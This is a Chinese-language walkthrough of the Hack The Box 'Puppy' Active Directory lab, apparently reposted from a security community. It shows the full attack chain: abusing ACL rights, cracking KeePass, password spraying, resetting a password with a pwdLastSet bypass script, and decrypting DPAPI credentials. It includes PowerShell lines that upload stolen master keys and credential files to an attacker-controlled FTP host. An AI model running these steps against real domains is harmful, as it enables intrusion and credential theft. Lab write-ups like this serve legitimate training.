# [HTB] 靶机学习（十四）Puppy-先知社区

> **来源**: https://xz.aliyun.com/news/18154  
> **文章ID**: 18154

---

```
Machine Information

As is common in real life pentests, you will start the Puppy box with credentials for the following account: levi.james / KingofAkron2025!
```

## 端口扫描

`namp -sC -sV 10.10.11.70`

```
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-27 11:56:03Z)
111/tcp  open  rpcbind?
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
2049/tcp open  mountd        1-3 (RPC #100005)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

使用`evil-winrm`进行登录,登录失败,尝试列举`smb`目录，发现主机名`DC`

```
netexec smb 10.10.11.70 -u levi.james -p 'KingofAkron2025!' --shares
```



看看有没有敏感文件，没找到

```
smbclient //10.10.11.70/SYSVOL -U 'levi.james%KingofAkron2025!' -W dc.puppy.htb
```

枚举域用户

```
sudo netexec smb dc.puppy.htb -d puppy.htb -k --rid-brute
```



```
Administrator
Guest
krbtgt
DC$
levi.james
ant.edwards
adam.silver 
jamie.williams
steph.cooper
steph.cooper_adm
```

## 尝试AS-REP roasting爆破

也没有突破点

```
sudo impacket-GetNPUsers -dc-ip 10.10.11.70 -request -usersfile user.txt -no-pass puppy.htb/
```



## bloodhound-python收集域信息

```
sudo bloodhound-python -u 'levi.james' -p 'KingofAkron2025!' -k -d puppy.htb --zip -c all -dc dc.puppy.htb -ns 10.10.11.70 --dns-tcp
```



启动`BloodHound`

```
ELECTRON_DISABLE_GPU=true ./BloodHound --disable-gpu --disable-software-rasterizer --in-process-gpu
```

## 域信息分析

发现`LEVI.JAMES`用户对`DEVELOPERS`组有`GenericWrite`权限,



在前面的`smb`枚举中，发现`DEV`目录没有权限读取，可能是只有`DEVELOPERS`组才能访问，所以使用`generalWrite`权限将用户添加到`DEVELOPERS`组

## GeneralWrite滥用

添加用户到`DEVELOPERS`组

```
net rpc group addmem "DEVELOPERS" levi.james -U 'levi.james%KingofAkron2025!' -S 10.10.11.70
```

再次枚举,有了读权限

```
netexec smb 10.10.11.70 -u levi.james -p 'KingofAkron2025!' --shares
```



```
smbclient //10.10.11.70/DEV -U 'levi.james%KingofAkron2025!' -W dc.puppy.htb
```

下载文件



## 爆破keepass4.0密码

尝试转换成hash，似乎有版本问题

```
keepass2john recovery.kdbx > hash.txt
```



<https://github.com/r3nt0n/keepass4brute>

```
apt install keepassxc
./keepass4brute.sh ../puppy/recovery.kdbx /usr/share/wordlists/rockyou.txt
```

得到密码`liverpool`



## 密钥喷洒

```
sudo ./kerbrute_linux_amd64 passwordspray -d puppy.htb --dc 10.10.11.70 ../puppy/user.txt 'liverpool' -v
```

尝试密钥喷洒，没成功



用`keepassxc`打开`recovery.kdbx`文件,密码是`liverpool`  


得到一串密码

```
HJKL2025!
Antman2025!
JamieLove2025!
ILY2025!
Steve2025!
```

```
sudo ./kerbrute_linux_amd64 passwordspray -d puppy.htb --dc 10.10.11.70 ../puppy/user.txt 'Antman2025!' -v
```

只爆破出来了一个，同时注意到adam.silver用户没有启用  
`ant.edwards@puppy.htb:Antman2025!`



## 开启禁用用户&修改用户所有者&强制修改用户密码

看一下`ant.edwards`用户有没有什么权限，属于`SENIOR DEVS`组，而`SENIOR DEVS`组对`adam.silver`用户有`GenericAll`权限，可以以此启用并完全控制`adam.silver`用户，而`adam.silver`用户属于`Remote Management Users`组，可以用`evil-winrm`登录





开启禁用用户`addam.silver`

```
bloodyAD -d puppy.htb -u ant.edwards -p Antman2025! --dc-ip 10.10.11.70 remove uac -f LOCKOUT -f ACCOUNTDISABLE adam.silver
```



修改用户所有者

```
bloodyAD -d puppy.htb -u ant.edwards -p Antman2025! --dc-ip 10.10.11.70 set owner adam.silver ant.edwards
```



修改用户的密码，有报错，提示有修改密码的最小周期

```
bloodyAD -d puppy.htb -u ant.edwards -p Antman2025! --dc-ip 10.10.11.70 set password adam.silver Adam@2025!
```



## 绕过密码最短修改周期限制pwdLastSet

运行脚本，修改`pwdlastset`的时间戳，来绕过这个限制，两个CN....都能在`bloodhound`里找到  
`python pwdlastsetChange.py`

```
import ldap3 
server = ldap3.Server('10.10.11.70', port =389, use_ssl = False)  
connection = ldap3.Connection(server, 'CN=ANTHONY J. EDWARDS,DC=PUPPY,DC=HTB', 'Antman2025!', auto_bind=True) 
connection.bind()
connection.extend.standard.who_am_i() 
connection.modify('CN=ADAM D. SILVER,CN=USERS,DC=PUPPY,DC=HTB',{'pwdLastSet': [(ldap3.MODIFY_REPLACE, ['0'])]})
```

然后修改密码

```
bloodyAD -d puppy.htb -u ant.edwards -p Antman2025! --dc-ip 10.10.11.70 set password adam.silver Antman2025!
```



使用`evil-winrm`登录,在桌面拿到第一个flag，`f92b167a96a599e4678cacc5faf8a2d4`

```
evil-winrm -u adam.silver -p Antman2025! -i 10.10.11.70
```



## DSAPI密码泄露

`kali`用`python`开启服务

下载`winPEASx64.exe`并运行

```
(New-Object Net.WebClient).DownloadFile('http://10.10.14.10:8888/winPEASx64.exe','C:\Users\adam.silver\desktop\winPEASx64.exe')
```

发现有`DSAPI`的主密钥和相关凭证  


```
MasterKey: C:\Users\adam.silver\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1105\1038bdea-4935-41a8-a224-9b3720193c86

CredFile: C:\Users\adam.silver\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D
```

还有一些隐藏文件，第一个文件有点像`DSAPI`  


用ftp传输

```
sudo apt install vsftpd -y
mkdir /home/kali/ftp
sudo chmod 555 /home/kali/ftp
sudo mkdir -p /home/kali/ftp/upload
sudo chmod 777 /home/kali/ftp/upload
sudo chown ftp:ftp /home/kali/ftp/upload
```

编辑ftp服务的配置文件  
`vim /etc/vsftpd.conf`

```
listen=YES
anonymous_enable=YES
local_enable=NO
write_enable=YES
anon_upload_enable=YES
anon_mkdir_write_enable=YES
anon_root=/home/kali/ftp
no_anon_password=YES
allow_writeable_chroot=YES
```

把主密钥和相关凭证通过`ftp`上传到`kali`

```
(New-Object Net.WebClient).UploadFile('ftp://10.10.14.10/upload/1038bdea-4935-41a8-a224-9b3720193c86', 'C:\Users\adam.silver\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1105\1038bdea-4935-41a8-a224-9b3720193c86')

(New-Object Net.WebClient).UploadFile('ftp://10.10.14.10/upload/DFBE70A7E5CC19A398EBF1B96859CE5D-DESKTOP', 'C:\Users\adam.silver\Desktop\DFBE70A7E5CC19A398EBF1B96859CE5D')

(New-Object Net.WebClient).UploadFile('ftp://10.10.14.10/upload/DFBE70A7E5CC19A398EBF1B96859CE5D','C:\Users\adam.silver\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D')
```

解密`DPAPI`的`masterkey`

```
sudo impacket-dpapi masterkey -t puppy.htb/adam.silver:'Antman2025!'@10.10.11.70 -file 1038bdea-4935-41a8-a224-9b3720193c86
```



解密桌面的`DPAPI`文件，和`CREDHIST`文件,没什么内容

```
sudo impacket-dpapi credential -file DFBE70A7E5CC19A398EBF1B96859CE5D -key '0x67c93a5831a5d17bae13deb6ef3324f5c97abd363d8f146f5ac79f07fb2b2c0eb21433fcf211c15af4e79c1c72a512d3c8f181433b1fa50e78e7e146c27230ae'
```



## 提权

在根目录找到`backup`，里面有一个压缩包

```
(New-Object Net.WebClient).UploadFile('ftp://10.10.14.10/upload/backup.zip','C:\Backups\site-backup-2024-12-30.zip')
```

解压缩得到一个用户名和密码



```
evil-winrm -u steph.cooper_adm -p FivethChipOnItsWay2025! -i 10.10.11.70
```

看看有没有DSAPI泄露

```
Get-ChildItem -Hidden C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem C:\Users\steph.cooper\AppData\Local\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107
```

  


后来发现是环境问题，导致`S-1-5-21-1487982659-1829050783-2281216199-1107`目录下的凭据是错的，重启环境后，重新寻找，下图是正确的



```
(New-Object Net.WebClient).UploadFile('ftp://10.10.14.10/upload/68b781e4-b6e5-4d2d-a3f1-6dd4c3ac894b', 'C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\68b781e4-b6e5-4d2d-a3f1-6dd4c3ac894b')

(New-Object Net.WebClient).UploadFile('ftp://10.10.14.10/upload/C8D69EBE9A43E9DEBF6B5FBD48B521B9', 'C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9')
```

破解`masterkey`

```
sudo impacket-dpapi masterkey -file 68b781e4-b6e5-4d2d-a3f1-6dd4c3ac894b -t puppy.htb/steph.cooper:'ChefSteph2025!'@10.10.11.70
```



```
sudo impacket-dpapi credential -file C8D69EBE9A43E9DEBF6B5FBD48B521B9 -key '0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84'
```

但使用key去破解却失败了，用别人wp的key却成功了,得到有system权限的用户,后面发现是环境问题，重启环境后，也能正常解出



```
net localgroup administrators
```

